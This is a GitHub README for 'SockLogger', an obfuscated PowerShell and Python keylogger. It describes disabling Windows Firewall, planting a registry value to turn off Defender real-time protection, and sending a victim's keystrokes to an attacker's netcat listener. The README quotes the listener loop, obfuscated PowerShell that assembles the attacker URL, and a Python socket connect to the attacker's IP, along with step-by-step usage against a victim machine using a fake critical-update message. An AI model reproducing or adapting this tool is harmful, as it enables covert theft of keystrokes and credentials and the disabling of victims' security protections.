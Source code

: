 # SockLogger-
A creative way to evade 'Real time protection' and 'Windows Firewall' on windows, and obtain victim key-strokes by obfuscate keylogger and using 'nc' on remote machine. While trying looking for a way to make a simple keylogger, thought it would be interesting to make an obfuscate keylogger which will executed upon a running .ps1 with a fake message update about critical problems using powershell ofcourse. Started to make a script which will make 3 things, but first it must run as Administrator privilege;
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry will will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine.
5. When the the SockLogger-Obfuscate.psy get execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)


# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
1. git clone the reposotory.
2. cd SockLogger3.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 1, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone, trytyping something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]

![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it. 
<h3>Note: Change Machine IP in the .ps1/pyw script under the lines:</h3>
<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script
</pre>
<pre>
m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>
in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080.<br>
please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public directory'

